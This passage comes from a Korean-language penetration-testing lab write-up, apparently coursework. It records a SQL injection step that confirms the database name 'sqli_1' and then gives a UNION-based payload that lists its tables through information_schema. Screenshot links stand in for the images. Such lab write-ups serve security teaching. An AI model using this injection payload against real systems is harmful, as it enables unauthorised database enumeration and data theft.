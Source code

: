 ![SQL Injection 1](/data/Penetration%20Testing%20|%20Week%206/44.png)

데이터베이스의 이름이 `sqli_1`인 것을 확인하였다.

<br>

**5. 테이블 이름 추출**

`Admin%' union select 1, 2, 3, table_name from information_schema.tables where table_schema = 'sqli_1'#`를 입력하여 `sqli_1` 데이터베이스 내의 테이블들을 출력해 보았다.

![SQL Injection 1](/data/Penetration%20Testing%20|%20Week%206/45.png)
